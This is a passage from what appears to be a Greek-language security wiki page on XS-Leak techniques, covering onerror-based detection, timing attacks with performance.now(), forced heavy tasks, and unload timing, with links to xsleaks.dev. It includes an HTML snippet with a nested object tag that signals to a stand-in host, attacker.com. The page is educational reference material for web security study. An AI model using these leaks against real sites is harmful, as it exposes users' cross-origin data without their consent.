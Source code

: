 {% content-ref url="cookie-bomb-+-onerror-xs-leak.md" %}
[cookie-bomb-+-onerror-xs-leak.md](cookie-bomb-+-onerror-xs-leak.md)
{% endcontent-ref %}

Το παράδειγμα κώδικα προσπαθεί να **φορτώσει αντικείμενα scripts από το JS**, αλλά **άλλες ετικέτες** όπως αντικείμενα, φύλλα στυλ, εικόνες, ήχοι μπορούν επίσης να χρησιμοποιηθούν. Επιπλέον, είναι επίσης δυνατό να ενσωματώσετε τη **σήμανση απευθείας** και να δηλώσετε τα συμβάντα `onload` και `onerror` μέσα στη σήμανση (αντί να το ενσωματώσετε από το JS).

Υπάρχει επίσης μια έκδοση αυτής της επίθεσης χωρίς κώδικα:

```html
<object data="//example.com/404">
<object data="//attacker.com/?error"></object>
</object>
```

### Χρονοποιημένη Φόρτωση

* **Μέθοδοι Ενσωμάτωσης**: Στοιχεία HTML
* **Ανιχνεύσιμη Διαφορά**: Χρονομέτρηση (συνήθως λόγω περιεχομένου σελίδας, κωδικού κατάστασης)
* **Περισσότερες πληροφορίες**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events)
* **Σύνοψη:** Το [**performance.now()**](https://xsleaks.dev/docs/attacks/timing-attacks/clocks/#performancenow) **API** μπορεί να χρησιμοποιηθεί για να μετρήσει πόσο χρόνο απαιτείται για την εκτέλεση μιας αίτησης. Ωστόσο, μπορούν να χρησιμοποιηθούν και άλλοι χρονομετρητές, όπως το [**PerformanceLongTaskTiming API**](https://developer.mozilla.org/en-US/docs/Web/API/PerformanceLongTaskTiming) που μπορεί να αναγνωρίσει εργασίες που εκτελούνται για περισσότερο από 50ms.
* **Παράδειγμα Κώδικα**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events) ένα άλλο παράδειγμα στο:

{% content-ref url="performance.now-example.md" %}
[performance.now-example.md](performance.now-example.md)
{% endcontent-ref %}

#### Χρονοποιημένη Φόρτωση + Επιβολή Βαριάς Εργασίας

Αυτή η τεχνική είναι παρόμοια με την προηγούμενη, αλλά ο **επιτιθέμενος** θα επιβάλει επίσης κάποια ενέργεια που θα πάρει **σημαντικό χρόνο** όταν η **απάντηση είναι θετική ή αρνητική** και θα μετρήσει αυτόν τον χρόνο.

{% content-ref url="performance.now-+-force-heavy-task.md" %}
[performance.now-+-force-heavy-task.md](performance.now-+-force-heavy-task.md)
{% endcontent-ref %}

### Χρονοποιημένη Αποφόρτωση/Πριν από την Αποφόρτωση

* **Μέθοδοι Ενσωμάτωσης**: Frames
* **Ανιχνεύσιμη Διαφορά**: Χρονομέτρηση (συνήθως λόγω περιεχομένου σελίδας, κωδικού κατάστασης)
* **Περισσότερες πληροφορίες**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#unload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#unload-events)
* **Σύνοψη:** Το [SharedArrayBuffer clock](https://xsleaks.dev/docs/attacks/timing-attacks/clocks/#sharedarraybuffer-and-web-workers) μπορεί να χρησιμοποιηθεί για να μετρήσει πόσο χρόνο απαιτείται για την εκτέλεση μιας αίτησης. Μπορούν να χρησιμοποιηθούν και άλλοι χρονομετρητές.
* **Παράδειγμα Κώδικα**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#unload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#unload-events)
